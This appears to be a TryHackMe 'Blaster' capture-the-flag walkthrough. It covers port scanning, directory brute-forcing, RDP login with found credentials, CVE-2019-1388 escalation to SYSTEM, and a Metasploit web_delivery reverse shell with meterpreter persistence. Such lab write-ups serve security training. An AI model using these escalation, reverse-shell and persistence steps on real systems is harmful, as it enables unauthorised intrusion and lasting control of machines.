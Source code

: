 # 🧨 Blaster – TryHackMe Walkthrough

---

## 🧪 Task 1: Machine Deployment
```bash
# Connect to VPN
sudo openvpn your-vpn-config.ovpn

# Add hostname for easier access
echo "10.10.156.253 blast" | sudo tee -a /etc/hosts
```

---

## 🔎 Task 2: Enumeration

### 🔍 Nmap Scan
```bash
nmap -sV -sC -p- blast
```

### ✅ Nmap Result
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0

3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393

5985/tcp open  http          Microsoft HTTPAPI httpd 2.0
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

---

## 📂 Directory Brute-Force
```bash
gobuster dir -u http://blast/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

✅ Discovered Directory:
```
/retro
```

- Visiting `/retro` reveals credentials for RDP:  
  **Username:** `wade`  
  **Password:** `parzival`

---

## 🖥️ Task 2.5: RDP Access
```bash
xfreerdp3 /v:blast /u:wade /p:'parzival' /cert:ignore +auto-reconnect /timeout:60000
```

- Once logged in, open `C:\Users\wade\Desktop\user.txt` to grab the user flag.

---

## 🔓 Task 3: Privilege Escalation (CVE-2019-1388)

### 🗑️ Step 1: Open `hhupd.exe` from the Recycle Bin
- Right-click → **Run as Administrator**

### 🌐 Step 2: Click the certificate info link inside the Help window
- This launches **Internet Explorer** with elevated SYSTEM privileges.

### 💾 Step 3: Save the webpage (`Ctrl + S`)
- In the "Save As" dialog, open the file browser

### 📁 Step 4: Use file browser to run `cmd.exe`
- In the address bar:
```text
C:\Windows\System32\cmd.exe
```

### 🛡️ Step 5: Check system privileges
```bash
whoami
```
✅ Output:
```
nt authority\system
```

---

## 🏴 Task 3.5: Grab the Administrator Flag
```bash
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🛡️ Task 4: Persistence with Metasploit
```bash
# Start Metasploit
msfconsole -q

# Use the web delivery module
use exploit/multi/script/web_delivery
```

```bash
# Set necessary options
set target 2
set lhost 10.10.XXX.XXX    # Your tun0 IP
set lport 4444
set payload windows/meterpreter/reverse_http
```

```bash
# Run the module
run -j
```

🖥️ On the target (inside the elevated CMD), paste the generated PowerShell command to spawn a reverse shell.

---

## 📌 Final Step: Set Up Persistence
```bash
# Once meterpreter session is open
sessions -i <session-id>
run persistence -X
```

---

✅ **Machine Owned!**  
You now have full SYSTEM access and persistence on the target Windows machine.